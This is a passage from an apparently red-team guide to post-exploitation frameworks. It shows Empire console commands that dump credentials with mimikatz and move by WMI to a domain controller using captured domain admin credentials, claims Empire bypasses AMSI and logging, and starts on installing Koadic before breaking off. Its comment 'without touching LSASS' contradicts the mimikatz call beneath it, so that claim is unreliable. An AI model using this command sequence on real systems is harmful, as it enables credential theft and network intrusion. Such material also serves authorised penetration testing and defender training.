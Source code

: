 3. **Lateral Movement Using Living-Off-the-Land Techniques**:
   - Used WMI for remote execution without PowerShell artifacts
   - Leveraged DCOM for lateral movement to bypass network monitoring
   - Executed in-memory .NET assemblies without touching disk

4. **Credential Access and Privilege Escalation**:
   ```
   # Extract credentials without touching LSASS
   (Empire: A3BX7LP9) > usemodule credentials/mimikatz/logonpasswords
   (Empire: powershell/credentials/mimikatz/logonpasswords) > set Agent A3BX7LP9
   (Empire: powershell/credentials/mimikatz/logonpasswords) > execute
   
   # Extracted domain admin credentials
   
   # Move to high-value target
   (Empire: A3BX7LP9) > usemodule lateral_movement/invoke_wmi
   (Empire: powershell/lateral_movement/invoke_wmi) > set ComputerName DC01.corp.local
   (Empire: powershell/lateral_movement/invoke_wmi) > set Listener https_listener
   (Empire: powershell/lateral_movement/invoke_wmi) > set Username CORP\admin
   (Empire: powershell/lateral_movement/invoke_wmi) > set Password P@ssw0rd123!
   (Empire: powershell/lateral_movement/invoke_wmi) > execute
   ```

This example demonstrated how Empire could bypass sophisticated PowerShell security controls, including script block logging, AMSI, and constrained language mode, providing a viable red team avenue even in environments with mature PowerShell defenses.

## Koadic: COM Command & Control

Koadic (sometimes called COM Command & Control) is a Windows post-exploitation rootkit that leverages the Windows Script Host for its operations. Using JavaScript, VBScript, and other native Windows scripting techniques, Koadic focuses on stealth and staying under the radar.

### Installation

```bash
# Clone the repository
git clone https://github.com/zerosum0x0/koadic.git
cd koadic

# Install dependencies
pip3 install -r requirements.txt
```

### Basic Usage

To start Koadic:

```bash
cd koadic
python3 koadic.py
```

This launches the Koadic console:
